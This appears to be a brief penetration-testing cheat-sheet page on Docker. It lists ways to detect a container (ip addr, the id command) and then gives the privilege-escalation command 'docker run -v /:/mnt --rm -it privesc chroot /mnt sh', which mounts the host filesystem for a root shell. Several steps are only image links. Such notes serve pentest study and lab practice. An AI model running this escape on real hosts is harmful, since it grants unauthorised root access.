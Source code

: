 # Docker

### Checking for Docker Containers&#x20;

#### 1>Checking for internal network may give signs of a docker container

`$ ip addr`

#### `2>ID command might tell`

![](<../.gitbook/assets/image (8) (1) (1) (1).png>)

### `Exploitation`

#### `Check for the images`

![](<../.gitbook/assets/image (6) (1) (1) (1).png>)

#### `Replace the image`

`docker run -v /:/mnt --rm -it privesc chroot /mnt sh`

![](<../.gitbook/assets/image (10) (1) (1) (1).png>)

